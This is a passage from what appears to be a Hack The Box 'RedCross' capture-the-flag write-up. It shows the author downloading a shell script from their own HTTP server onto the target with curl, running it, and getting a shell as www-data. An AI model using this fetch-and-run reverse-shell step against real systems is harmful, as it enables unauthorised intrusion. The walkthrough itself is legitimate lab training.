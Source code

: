 ![](/images/hackthebox/redcross/30.png)
<br> Then I hosted it on a python simple HTTP server , and downloaded it on the box : `curl http://10.10.xx.xx/shell.sh > /tmp/shell.sh`
![](/images/hackthebox/redcross/31.png)
<br> Python Server :
![](/images/hackthebox/redcross/32.png)
<br> Let's verify that the shell is on the box :
![](/images/hackthebox/redcross/33.png)
<br>
<br>
![](/images/hackthebox/redcross/34.png)
<br> Nice let's execute :
`bash /tmp/shell.sh`
![](/images/hackthebox/redcross/35.png)
<br>
<br>
![](/images/hackthebox/redcross/36.png)
<br> We got a shell as `www-data` :
![](/images/hackthebox/redcross/37.png)
<br> And we see in `/home` a directory for `penelope` , but we can't read the user flag.